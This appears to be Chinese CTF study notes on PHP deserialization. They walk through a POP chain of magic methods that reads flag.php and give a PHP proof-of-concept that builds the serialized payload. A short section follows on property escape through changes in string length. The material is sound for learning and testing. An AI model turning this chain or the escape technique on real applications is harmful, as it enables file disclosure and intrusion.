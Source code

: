 目标：触发echo，调用$flag

1. 触发invoke，调用append，并使$var = flag.php
   invoke触发条件：把对象当作函数
2. 给$p赋值为对象，即function成为对象Modifier，却被当成函数调用，触发Modifier中的invoke
3. 触发__get（触发条件：调用不存在的成员属性）
4. 给$str赋值为对象Test，而Test中不存在成员属性source，则可触发Test里的成员方法get
5. 触发__toString（触发条件：把对象当作字符串）
6.  给$source赋值为对象Show，当字符串被echo调用，触发__toString
7. 触发__wakeup

```php
POC:
<?php
class Modifier {
    private $var = 'flag.php';
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $p;
}

$a = new Modifier();
$b = new Test();
$b->p = $a;
$c = new Show();
$c->source = $c;
$c->str = $b;
echo urlencode(serialize($c));
```

## 字符串逃逸

### 字符减少

**反序列化分隔符**

反序列化以 ;} 结束，后面的字符串不影响正常的序列化

**属性逃逸**

一般在数据先经过一次serialize再经过unserialize，在这个中间反序列化的字符串变多或者变少的时候可能存在反序列化属性逃逸

```php
<?php
class A{
    public $v1 = 'a';
}
echo serialize(new A());
$b = 'O:1:"A":1:{s:2:"v1";s:1:"a";s:2:"v2";s:3:"ben";}';
var_dump(unserialize($b));
$c = 'O:1:"A":2:{s:2:"v1";s:1:"a";s:2:"v2";s:3:"ben";}';
var_dump(unserialize($c));

```
